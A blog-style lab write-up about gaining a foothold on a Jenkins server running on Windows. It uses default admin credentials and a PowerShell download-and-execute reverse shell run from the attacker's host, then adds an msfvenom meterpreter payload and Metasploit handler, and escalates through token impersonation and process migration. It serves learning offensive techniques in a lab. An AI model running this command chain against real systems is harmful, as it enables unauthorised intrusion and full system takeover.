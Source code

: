 ```yaml
---
title: "jenkins"
date: 2022-01-08T14:37:40-05:00
draft: false
type: "post"
---
```


if you've worked in any sort of SaaS/tech company, odds are you've used a CI/CD (continuous integration/continuous delivery and deployment) and DevOps tool. CI/CD is a method used to deliver apps to customers and clients by introducing automation into the stages of app development. it allows orgs to ship software "quickly" and "efficiently" (i used scare quotes because...well, if you've worked in a software company you'll know why). i'm going to see if i can try to exploit a common security misconfiguration on one of these tools, jenkins, then try to escalate privilege to get full system access.


## the difference between CI and CD

**CI**: involves devs making small changes and checks to their code. the scale of these changes can be huge so the process is automated to ensure that teams can build, test, and package their apps in a reliable way. CI can also help to streamline code changes.

**CD (continuous delivery)**: this is the automated delivery of completed code to environments like testing and development. 

**CD (continuous deployment)**: every change that passes the automated tests is automatically placed in production, resulting in many production deployments. this is the ultimate goal of many companies, given they're not constrained by regulatory or compliance requirements. 

![cicd](/CICD-DevOps.png)


## jenkins

jenkins is an open-source CI/CD automation software, written in java. it's used to implement CI/CD workflows, called pipelines. 

pipelines automate testing and reporting on isolated changes in a larger code base (in real time) and facilitates integration of disparate branches of code into a main branch. pipelines also rapidly detect defects in a code base, build the software, automate testing of builds, prepare code base for deployment/delivery, and ultimately deploy code to containers and virtual machines (as well as bare metal and cloud servers). 


for this experiment, i've spun up a windows VM that hosts the jenkins instance, and try to attack it from my kali VM. 

once everything is set up, let's start with a simple nmap scan of the target machine.

```
nmap -sT -Pn -v 10.10.77.68
```

![nmap](/jenkins-nmap.png)

the service at port 8080 is the jenkins server. to visit it, simply enter http://10.10.77.68:8080. at the login page, i'll enter my credentials (admin:admin) [note: default credentials for jenkins are usually admin:password or admin:admin] and be taken to the jenkins dashboard. there you'll see a "project" that was created just for this experiment.

![dashboard](/jenkins-dashboard.png)


since this is a windows application, i'll use the [nishang](https://github.com/samratashok/nishang) repo for a script, more specifically [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. nishang also contains a whole bunch of scripts for initial access, enumeration, and privesc so check them all out if you'd like. 

in kali, i created a directory to download the script to.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

now let's create a simple web server so that this script can be downloaded into jenkins.

```
python -m SimpleHTTPServer 80
```


back in jenkins, if you click "project" > configure > build, you'll see a command box that lets you execute any command. 

![build](/jenkins-build.png)

first, start a netcat listener in kali.

```
nc -lvnp 9001
```

in the jenkins command box, enter the following command to download the powershell script to the target. remember to use the address of the HTTP server that was created.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.4.75:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.4.75 -Port 9001
```

save the build, then click "build now" from the project page. the netcat listener will receive a connection to the target.

![netcat](/jenkins-netcat.png)


to make privesc easier, it's better to switch to a meterpreter shell.

first, create an msfvenom payload in the same directory we saved the powershell script to.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.4.75 LPORT=9002 -f exe -o jenkins.exe
```

download it to the machine similar to how we did it before, via the HTTP server and the build command box.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.4.75:8000/jenkins.exe','jenkins.exe')"
```

save this build, but before building, let's create a handler in metasploit to receive the connection.

```
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST 10.9.4.75
> set LPORT 9002
> run
```

back in jenkins, once you build and the payload has been downloaded to target, in the msfconsole shell type the following to get the meterpreter shell.

```
> Start-Process "jenkins.exe"
```


## token impersonation to gain system access

windows uses tokens to ensure accounts have the right privileges to carry out certain actions. tokens are assigned to an account when users log in or when they're authenticated. this is usually done by ```LSASS.exe```, generates the process responsible for authenticating users for the WINLOGON service. this is performed by using authentication packages like ```msgina.dll```. 

once authentication is successful, LSASS generates the user's access token, which is used to launch the initial shell. other processes the user initiates then inherit this token.

the user's access token consists of: user SIDs, group SIDs, privileges. you can read more about access tokens [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

there are 2 types of access tokens:
1. primary access tokens: associated with a user account, generated on log on
2. impersonation tokens: allow a particular process to use the token of another

the different levels of impersonation tokens:
- **SecurityAnonymous**: current user/client cannot impersonate another user/client
- **SecurityIdentification**: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- **SecurityImpersonation**: current user/client can impersonate the client's security context on the local system
- **SecurityDelegation**: current user/client can impersonate the client's security context on a remote system

security context refers to the data structure that contain users' relevant security information.

privileges of an account allow the user to carry out particular actions. 
the most commonly abused privileges are:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

you can read more about them [here](https://www.exploit-db.com/papers/42556).


back in the meterpreter shell, we can check privs easily.

```
> whoami /priv
```

2 privileges should show up: SeDebugPrivilege and SeImpersonatePrivilege. let's use incognito mode to exploit this.

```
> load incognito
```

to check which tokens are available to us:
```
> list_tokens -g
```

the token **BUILTIN\Administrators** is available. impersonating it should be easy.

```
> impersonate_token "BUILTIN\Administrators"
```

it's good practice to double check privileges. 

```
> getuid
```

although we now have a higher privilege token, we may not actually have higher privilege permissions. windows uses a primary token of the process and not the impersonated token to determine what the process can do. so, we just migrate to a process with correct permissions. the safest process to pick is usually ```services.exe```.

```
> ps
> migrate <PID>
```

we've now migrated to an elevated process using its process ID (PID).


so, there it is. we exploited jenkins to further exploit security misconfigurations to get root access on the target system. pretty cool!











